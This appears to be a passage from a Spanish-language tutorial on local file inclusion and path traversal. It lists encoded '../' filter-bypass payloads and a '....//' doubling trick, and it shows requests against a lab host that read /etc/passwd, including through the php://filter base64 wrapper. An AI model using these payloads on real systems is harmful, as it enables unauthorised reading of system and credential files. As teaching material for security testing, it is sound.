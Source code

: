 ```
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```
jugar con dote-slash ../ de diferentes maneras se pueden evitar algunos filtros de seguridad implmentados en un sistema

**16 bits Unicode encoding**
```console
. = %u002e
/ = %u2215
\ = %u2216
```
**UTF-8 Unicode encoding**
```console
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
```
Otra técnica muy común es implementar el doble slash añadiendo doble punto ya que por detrás pueden implmentar una función que elimine la barra / y el .. para eso se le agrega doble para que elimine los primero caracterés y se incluyan los agregados
```console
http://10.10.10.84/browse.php?file=....//....//....//....//....//....//....//....//....//etc/passwd
```
```console
..././
...\.\
```
## Wrappers
un Wrapper es una especie de envoltura que se le dará la secuencia de entrada y salida de datos, esto es muy util en ataques a php como en el LFI y el XXE podemos obtener ventajas a la hora de llamar a la función que queremos que haga

- php://filter
- zip://
- data://
- php://input

**://filter**
el Wrapper filter es de los mas utilizados nos permite encodear la data que trasmitimos y que no podamos leer en un formato formal, por ejemplo volvamos a nuestra máquina vulnerable
en caso de que mi output no me saliera nada al tratar de leer el /etc/passwd podemos ejecutar lo siguiente
```console
http://10.10.10.84/browse.php?file=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
```
![](/assets/img/commons/LFI/web6.png)